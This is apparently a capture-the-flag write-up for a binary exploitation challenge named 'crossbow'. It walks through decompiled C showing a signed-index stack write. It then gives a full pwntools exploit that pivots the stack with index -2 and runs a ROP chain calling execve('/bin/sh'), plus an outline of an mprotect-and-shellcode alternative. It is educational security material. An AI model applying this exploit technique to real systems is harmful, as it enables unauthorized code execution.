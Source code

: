 * Description

Sir Alaric's legendary shot can pierce through any enemy! Join his training and hone your aim to
match his unparalleled precision.

* Solution

Run the program with some random choice like this:
[[file:2025-04-18_16-30.png]]

Let's load it with disassembler to analysis. ~main~ function like this:
#+begin_src c -n 1
int __fastcall main(int argc, const char **argv, const char **envp)
{
  __int64 v3; // rdx
  __int64 v4; // rcx
  int v5; // r8d
  int v6; // r9d

  setvbuf(&_stdin_FILE, 0, 2, 0);
  setvbuf(&_stdout_FILE, 0, 2, 0);
  alarm(4882);
  banner();
  training(4882, 0, v3, v4, v5, v6);
  return 0;
}
#+end_src

There is nothing interesting, dive into ~training~ function:
#+begin_src c
__int64 __fastcall training(__int64 n4882, __int64 a2, __int64 a3, __int64 a4, int a5, int a6)
{
  __int64 v6; // rdx
  __int64 v7; // rcx
  int v8; // r8d
  int v9; // r9d
  int v10; // r8d
  int v11; // r9d
  char v13[32]; // [rsp+0h] [rbp-20h] BYREF

  printf(
    (unsigned int)"%s\n[%sSir Alaric%s]: You only have 1 shot, don't miss!!\n",
    (unsigned int)"\x1B[1;34m",
    (unsigned int)"\x1B[1;33m",
    (unsigned int)"\x1B[1;34m",
    a5,
    a6);
  target_dummy((__int64)v13, (__int64)"\x1B[1;34m", v6, v7, v8, v9);
  return printf(
           (unsigned int)"%s\n[%sSir Alaric%s]: That was quite a shot!!\n\n",
           (unsigned int)"\x1B[1;34m",
           (unsigned int)"\x1B[1;33m",
           (unsigned int)"\x1B[1;34m",
           v10,
           v11);
}
#+end_src

There is only one function call ~target_dummy~, which pass a *stack variable* as parameter.
#+begin_src c
__int64 __fastcall target_dummy(__int64 a1, __int64 _x1B[1_34m, __int64 a3, __int64 a4, int a5, int a6)
{
  int v6; // edx
  int v7; // ecx
  int v8; // r8d
  int v9; // r9d
  int v10; // r8d
  int v11; // r9d
  _QWORD *v12; // rbx
  int v13; // r8d
  int v14; // r9d
  __int64 s_unlocked; // rax
  int v16; // r8d
  int v17; // r9d
  int v18; // [rsp+1Ch] [rbp-14h] BYREF

  printf(
    (unsigned int)"%s\n[%sSir Alaric%s]: Select target to shoot: ",
    (unsigned int)"\x1B[1;34m",
    (unsigned int)"\x1B[1;33m",
    (unsigned int)"\x1B[1;34m",
    a5,
    a6);
  if ( (unsigned int)scanf((unsigned int)"%d%*c", (unsigned int)&v18, v6, v7, v8, v9) != 1 )
  {
    printf(
      (unsigned int)"%s\n[%sSir Alaric%s]: Are you aiming for the birds or the target kid?!\n\n",
      (unsigned int)"\x1B[1;31m",
      (unsigned int)"\x1B[1;33m",
      (unsigned int)"\x1B[1;31m",
      v10,
      v11);
    exit(1312);
  }
  v12 = (_QWORD *)(8LL * v18 + a1);
  *v12 = calloc(1, 128);
  if ( !*v12 )
  {
    printf(
      (unsigned int)"%s\n[%sSir Alaric%s]: We do not want cowards here!!\n\n",
      (unsigned int)"\x1B[1;31m",
      (unsigned int)"\x1B[1;33m",
      (unsigned int)"\x1B[1;31m",
      v13,
      v14);
    exit(6969);
  }
  printf(
    (unsigned int)"%s\n[%sSir Alaric%s]: Give me your best warcry!!\n\n> ",
    (unsigned int)"\x1B[1;34m",
    (unsigned int)"\x1B[1;33m",
    (unsigned int)"\x1B[1;34m",
    v13,
    v14);
  s_unlocked = fgets_unlocked(*(_QWORD *)(8LL * v18 + a1), 128, &_stdin_FILE);
  if ( !s_unlocked )
  {
    printf(
      (unsigned int)"%s\n[%sSir Alaric%s]: Is this the best you have?!\n\n",
      (unsigned int)"\x1B[1;31m",
      (unsigned int)"\x1B[1;33m",
      (unsigned int)"\x1B[1;31m",
      v16,
      v17);
    exit(69);
  }
  return s_unlocked;
}
#+end_src

Until now, the program's behavior is very clear:
1. setup some trivial banner information.
2. call ~target_dummy~ within a *stack variable parameter*.
3. call ~scanf~ with *%d* as format string to get a index, notice that format string accept a /signed int/.
4. *use the user input idx to index that stack variable*, and allocate memory at that position for
   user content.
5. print that user content then program normal exit.
   
Now, the keypoint is the number four, which we can control where the allocated memory address
position. In fact, we already can infer the relationship between the user idx and stack variable
from ~target_dummy~ call. But we also use =GDB= to identity that.
[[file:2025-04-19_13-10.png]]

So here we can =pivot stack= to execute =ROP= gadgets by give the -2 idx, cause *NX* enabled. 

#+begin_src python :results output
#!/usr/bin/env python
from pwn import *
context.arch = 'amd64'

io = process('./dist/crossbow')

padding = b"A"*8
pop_rax_addr = p64(0x00404bc7)
bin_sh = b"/bin/sh\x00"
pop_rdi_addr = p64(0x0040ac2d)
# any position that writable is OK
writable_addr = p64(0x0040d000)
mov_rax_to_rdi_ptr_addr = p64(0x004020f5)
pop_rsi_addr = p64(0x004069b6)
pop_rdx_addr = p64(0x00401139)
execve_syscall_num = p64(59)
syscall_gadget_addr = p64(0x00405346)

payload = b"".join([
    # Padding will be set into RBP when leaving training. Actual value unimportant.
    padding,

    # execve pathname argument: gadget chain to ensure rdi points to "/bin/sh"
    pop_rax_addr,
    bin_sh,
    pop_rdi_addr,
    writable_addr,
    mov_rax_to_rdi_ptr_addr,

    # execve argv argument: null pointer
    pop_rsi_addr,
    p64(0),

    # execve envp argument: null pointer
    pop_rdx_addr,
    p64(0),

    # Ensure rax is set to the execve syscall number.
    pop_rax_addr,
    execve_syscall_num,

    # Invoke the execve system call
    syscall_gadget_addr
])

_ = io.sendlineafter(b'shoot: ', b'-2')
_ = io.sendlineafter(b'> ', payload)

io.interactive()
#+end_src

[[file:2025-04-19_13-17.png]]

BTW, there is another way to achive the goal:
1. use ROP to call ~mprotect~ to get a *RWX* place.
2. use ROP to call ~read*~ to get the actually shellcode.
3. ~ret~ to the shellcode.
   
~read*~ means all syscall that can get input from user to where we want. 

